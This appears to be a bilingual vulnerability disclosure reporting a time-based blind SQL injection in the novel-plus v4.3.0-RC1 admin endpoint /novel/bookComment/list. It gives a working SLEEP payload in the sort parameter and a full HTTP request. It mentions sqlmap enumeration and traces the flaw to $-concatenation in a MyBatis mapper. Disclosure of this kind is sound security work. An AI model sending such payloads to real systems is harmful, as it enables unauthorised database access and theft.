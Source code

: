 

# SQL injection vulnerability exists in novel-plus v4.3.0-RC1

## The /novel/bookComment/list interface of the novel-admin subsystem in the novel-plus system has SQL injection vulnerability.

#### official website: https://novel.xxyopen.com/index.htm
 
#### github: https://github.com/201206030/novel-plus
 
#### Affected version: v4.3.0-RC1
 
#### releases：https://github.com/201206030/novel-plus/releases/tag/v4.3.0-RC1
 

Payload: 
```
http://127.0.0.1:8088/novel/bookComment/list?limit=10&offset=0&sort=id AND (SELECT 9288 FROM (SELECT(SLEEP(5)))OHwd)&order=desc
```

```
GET /novel/bookComment/list?limit=10&offset=0&sort=id AND (SELECT 9288 FROM (SELECT(SLEEP(5)))OHwd)&order=desc HTTP/1.1
Host: 127.0.0.1:8088
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/json
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: JSESSIONID=e67b0eef-808f-47a6-adc6-47c2be63edb6
Connection: close


```

Use sqlmap for verification, and retrieve all the database names.

使用sqlmap验证，跑出所有库名：

> information_schema<br>
> novel_plus

![image](https://github.com/red0-ha1yu/warehouse/assets/156632069/64a17292-94cb-493e-8bb2-e77895ed6aee)

BookCommentController calls the list method of BookCommentServiceImpl.

BookCommentController调用了BookCommentServiceImpl的list方法；

novel-admin/src/main/java/com/java2nb/novel/controller/BookCommentController.java
![image](https://github.com/red0-ha1yu/warehouse/assets/156632069/f9e34958-d8b0-494b-bd2a-3d606ca34af7)

BookCommentServiceImpl calls the list method of BookCommentMapper.

BookCommentServiceImpl调用了BookCommentMapper的list方法；

novel-admin/src/main/java/com/java2nb/novel/service/impl/BookCommentServiceImpl.java
![image](https://github.com/red0-ha1yu/warehouse/assets/156632069/ac6e5abd-3a24-4bd5-959d-7e170ce86ddf)


In BookCommentMapper, the usage of the $ symbol to concatenate the sort parameter and the order parameter results in an SQL injection vulnerability.

BookCommentMapper中sort参数和order参数使用了$符号来拼接，导致存在SQL注入漏洞；

novel-admin/src/main/resources/mybatis/novel/BookCommentMapper.xml
![image](https://github.com/red0-ha1yu/warehouse/assets/156632069/a16fd9af-1316-429c-8638-4621896f33d2)

